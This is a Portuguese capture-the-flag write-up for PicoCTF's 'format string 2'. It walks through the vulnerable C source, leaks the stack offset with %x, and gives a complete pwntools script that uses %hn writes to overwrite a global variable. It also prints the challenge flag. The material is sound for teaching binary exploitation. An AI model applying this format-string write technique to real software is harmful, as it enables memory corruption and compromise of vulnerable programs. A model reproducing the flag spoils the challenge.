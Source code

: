 # WriteUp: format string 2

## Descrição do Desafio:
Author: SkrubLawd \
Plataforma: [PicoCTF](https://play.picoctf.org/practice/challenge/448?category=6&page=1) \
Categoria: Binary Exploitation \
Dificuldade: Médio \
Data: 2024 \
Descrição:
> This program is not impressed by cheap parlor tricks like reading arbitrary data off the stack. To impress this program you must *change* data on the stack!

## Passo a Passo da Solução

### 1. Análise do arquivo fornecido
Este desafio nos fornece tanto o executável como o arquivo fonte. Então, o primeiro passo é analisar o arquivo fonte e ver o que ele tem de interessante para nós.

```c
#include <stdio.h>

int sus = 0x21737573;

int main() {
  char buf[1024];
  char flag[64];


  printf("You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?\n");
  fflush(stdout);
  scanf("%1024s", buf);
  printf("Here's your input: ");
  printf(buf);
  printf("\n");
  fflush(stdout);

  if (sus == 0x67616c66) {
    printf("I have NO clue how you did that, you must be a wizard. Here you go...\n");

    // Read in the flag
    FILE *fd = fopen("flag.txt", "r");
    fgets(flag, 64, fd);

    printf("%s", flag);
    fflush(stdout);
  }
  else {
    printf("sus = 0x%x\n", sus);
    printf("You can do better!\n");
    fflush(stdout);
  }

  return 0;
}
```

É um código simples, ele tem uma variável global inicializada com `0x21737573`, e imprimirá a *flag* caso o seu valor seja `0x67616c66`. Se repararmos, logo após inserirmos o *input*, o programa imprime ele, porém ele imprime passando o `buf` diretamente como parâmetro, sem informar as **strings de formato**, abrindo brecha para um possível ataque de **format string**.

### 2. Exploit
Para realizarmos um ataque de **format string**, nesse caso, nós precisamos saber o endereço da variável `sus` e o *offset* no qual o nosso *input* começa a aparecer na pilha.

> 💡 **Nota:** Como a variável `sus` é de escopo global, ela dificilmente estará armazenada na pilha.

Para sabermos o endereço da `sus`, precisamos saber inicialmente se o executável contém alguma proteção como o `PIE`.

```bash
└─$ checksec --file=vuln     
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable     FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   42 Symbols        No    0               2               vuln
```

E como podemos ver ele não contém, então para pegarmos o endereço da `sus` nós podemos usar a instrução `elf.sym['sus']` do **pwntools** (note que `elf` deve ser declarada anteriormente como `ELF('./vuln')`) ou simplesmente digitar `p &sus` no terminal do **pwndbg**. Com o endereço em mãos, vamos atrás do *offset*, cuja maneira mais fácil de se obter é executar o programa e digitar a sequência `%x-` no *input*, após isso ir contando quantos resultados apareceram antes dos *bytes* dos caracteres do input.

```bash
You don't have what it takes. Only a true wizard could change my suspicions. What do you have to say?
%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x
Here's your input: 402075-0-77c5da00-0-95a2b0-77cafaf0-77c864e8-9-77c86de9-77a57098-77c734d0-0-757657c0-252d7825-2d78252d-78252d78-252d7825-2d78252d-78252d78-252d7825-2d78252d-78252d78-252d7825-2d78252d-77ca0078-77c758d8-77c821d4-0-0-0
sus = 0x21737573
You can do better!
```

No caso, eles começam a aparecer no 14º *offset*.

### 3. Solução
A solução é um tanto simples, devemos escrever `0x67616c66` caracteres e com o formato `%n` salvar no endereço obtido. Porém essa quantidade de caracteres tende a encerrar a execução do programa antes dele imprimir tudo, então dividiremos em duas partes: a parte superior (`6c66`) e a parte inferior (`6761`).

> 💡 **Nota:** A parte superior e inferior estão invertidas em relação ao valor `0x67616c66` por causa do formato **little-endian**.

Com essas duas partes, iniciamos o *payload* escrevendo o menor valor, e depois escrevemos o maior valor menos o que já foi imprimido. Após isso, completamos o *payload* com qualquer caractere para a pilha não ficar desalinhada (deve ser sempre múltiplo de 8 se for 64bits). Por fim inserimos os endereços, sendo o endereço original a parte superior e o endereço somado com mais 2 (deslocado 2 *bytes*) a parte inferior.

> ⚠️ **Importante:** Os endereços devem estar no final do *payload* pois eles contém *bytes* nulos, que fazem o `printf()` parar de imprimir.

```py
from pwn import *

elf = context.binary = ELF("./vuln")
p = remote("ip", porta)

sus = elf.sym['sus'] # Endereço da variável.

payload = b"%26465x%18$hn%1285x%19$hn|||||||" # Escrevendo o payload (no total ocupa 4 offsets).
payload += p64(sus + 2) # Escrevendo o endereço da parte inferior no offset 18
payload += p64(sus) # Escrevendo o endereço da parte superior no offset 19

p.sendlineafter(b"?\n", payload)
print(p.recvall().decode())
```

### Flag
`picoCTF{f0rm47_57r?_f0rm47_m3m_ccb55fce}`

## Autor
[Membro de Exploitation - HenriUz](https://github.com/HenriUz)
